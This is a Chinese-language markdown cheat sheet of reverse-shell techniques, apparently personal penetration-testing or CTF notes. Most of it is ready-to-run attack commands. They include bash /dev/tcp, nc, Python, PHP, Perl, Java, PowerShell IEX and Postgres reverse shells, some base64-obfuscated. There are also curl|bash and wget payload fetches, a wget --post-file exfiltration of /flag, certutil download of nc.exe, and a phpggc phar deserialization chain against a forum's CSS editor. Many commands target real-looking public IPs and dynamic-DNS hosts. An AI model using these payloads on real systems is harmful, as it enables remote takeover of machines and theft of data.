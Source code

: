 [revshells](https://www.revshells.com/)
[反弹 Shell 大全与原理](https://mp.weixin.qq.com/s/ClqEAqpPxlscNJphSBfhKA)
[Ladon | 22 种反弹 Shell 方法 openssl\\java\\py\\php\\perl\\lua\\curl\\socat ncat ruby](https://mp.weixin.qq.com/s/oPFxDxaUb9eGm-zrJzP55g)


- TheFatRat 创建反弹 shell

## 反弹 Shell

https://www.cnblogs.com/xiaozi/p/13493010.html

如果是 php_shell, `?c=system('wget http://xxx')` , `wget xxx` 这里要进行 url 编码

windows 上传 `certutil -urlcache -split -f http://11.1.63.37/nc.exe nc.exe`

nc 参数

```shell
-l              listen mode, for inbound connects
-L              listen harder, re-listen on socket close
-v              verbose [use twice to be more verbose]
```

**bash 连接**

```shell
# 攻击机器
nc -lvp 7777

# 被攻击机 , 不要在zsh
/bin/bash -i >& /dev/tcp/攻击机ip/7777 0>&1
bash -c '/bin/bash -i >& /dev/tcp/192.168.50.161/7777 0>&1'
bash -c 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTAuMTYxLzc3NzcgMD4mMQ==|base64 -d|bash -i'
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTAuMTYxLzc3NzcgMD4mMQ==|base64 -d|bash
curl http://攻击机ip:2126/sa.sh|bash

## curl: shell.txt,内容为bash -i >& /dev/tcp/攻击机ip/7777 0>&1
curl 192.168.1.20|bash
nc 127.0.0.1 7777 -e /bin/bash
nc 127.0.0.1 7777 -e cmd.exe                       // Windows
nc 127.0.0.1 7777 -e c:\windows\system32\cmd.exe   // Windows

## nc连接无 -e 参数
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc 1.1.1.1 7777 1>/tmp/backpipe

nc -e /bin/sh 192.168.50.161 4444
## python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.1",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
## php
php -r '$sock=fsockopen("192.168.32.1",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
## perl - Linux
perl -e 'use Socket;$i="47.101.57.72";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
## perl - Windows
perl -e 'use Socket;$i="47.101.57.72";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## telnet , 攻击机监听2个端口 nc -lvvp 4445, nc -lvvp 4444
telnet 192.168.50.161 4444 | /bin/bash | telnet 192.168.50.161 4445
```

**powershell**

```bat
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.183.1:8080/powercat.ps1');powercat -c 192.168.183.1 -p 4444 -e cmd
```

**利用被攻击机 ip**
其他都是需要攻击机 ip，这个则相反。我的理解是需要攻击机 ip 的相当于把 shell 弹给攻击机(所以攻击机 ip 和 bash 在一行代码)，而这个相当于在本地端口开个 shell,攻击机访问端口来拿 shell

```shell
nc 1.1.1.1 7777

# 被攻击机输入
nc -lvp 7777 -e /bin/bash
```

python 方式 2

```py
#!/usr/bin/python
#-*- coding: utf-8 -*-
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.20.151",7777)) #更改localhost为自己的外网ip,端口任意
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

客户机

```
curl 192.168.1.20/shell.py|python
```

**wget** 反弹 shell

```
靶机:
wget --post-file /flag http://ip:port/
wget http://wgf4242.51vip.biz/shell.txt -O /tmp/x.php && php /tmp/x.php
wget 192.168.20.130/shell.txt -O /tmp/x.php && php /tmp/x.php
http://xxx/wget?argv=1&argv=--post-file&argv=/flag&argv=http://wgf4242.51vip.biz:34578
vps攻击机: nc -lvp 2333
```

shell.txt 内容

```php
<?php
$sock=fsockopen("1.1.1.1",7777);//localhost为自己的外网ip，端口任意
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

python -m http.server --bind 0.0.0.0 8080

**java** 反弹 shell
[Runtime 执行 linux 命令时管道符不生效](https://mp.weixin.qq.com/s/EhatzI7QVmh_RQZYOWNBYg)

```java
public class Revs {
public static void main(String[] args) throws Exception {
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

Runtime 执行 linux 命令时管道符不生效, 用 base64 编码内容

```sh
#bash
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNC4yLjMuNC8yMjIzIDA+JjEg}|{base64,-d}|{bash,-i}
#python
python -c exec('L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNC4yLjMuNC8yMjIzIDA+JjEg'.decode('base64'))
```

**postgres** 反弹 shell

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM '/bin/bash -i >& /dev/tcp/11.1.xx.xx/1234 0>&1';
-- COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

### less/phar 反弹 shell

原理简单来说是利用 less.php 编译 Less，在编译的过程中，利用`@import (inline)`和`data`伪协议将文件写入到`assets/forum.css`中，再用`data-uri('phar://./assets/forum.css')`触发 phar 反序列化实现命令执行

这里的反序列化链由 phpggc 生成：

- 这里反弹 shell 需要一点小技巧，我这里的打法是：在 29999 端口的 HTTP 服务里放一个 1.txt，然后在 39999 端口监听准备拿 shell

```sh
perl -e 'use Socket;$i="1.1.1.1";$p=39999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

再用 phpggc 生成

```bash
php phpggc -p tar -b Monolog/RCE6 system "curl 1.1.1.1:29999/1.txt|sh"
```

payload 如下, 在自定义 css 处写入以下 payload, 保存

```bash
@import (inline) 'data:text/css;base64,dGVzdC50eHQAAAAAAA......';
```

访问一下，phar 内容成功写入

```bash
http://39.99.150.188/assets/forum.css?v=2166f2e8
```

然后再编辑一下，用 data-uri 做 phar 反序列化触发命令执行

```css
.test {
  content: data-uri("phar://./assets/forum.css");
}
```

### 无公网 IP 反弹 shell

https://www.bilibili.com/video/BV1pq4y1U7CR

方法 1:
花生壳开 127.0.0.1 54321 端口 得到 tcp://397j302b56.zicp.vip:37932
本机 nc -lvvnp 54321
远程 /?c=system("nc wgf4242.51vip.biz 39672 -e /bin/sh");

方法 2:
花生壳开虚拟机地址 192.168.0.102 54321 得到 tcp://397j302b56.zicp.vip:37932
本机 A IP 是 192.168.0.100, 电脑 B 192.168.0.100, 虚拟机 C 属于电脑 B 是 192.168.247.128
如何让 A 与 C 互通
虚拟机 C nc -lvvnp 54321
花生壳 PC$ netsh interface portproxy add v4tov4 listenaddress=192.168.0.102 listenport=54321 connectaddress=192.168.247.128 connectport=54321

bash -i >& /dev/tcp/397j302b56.zicp.vip/22599 0>&1
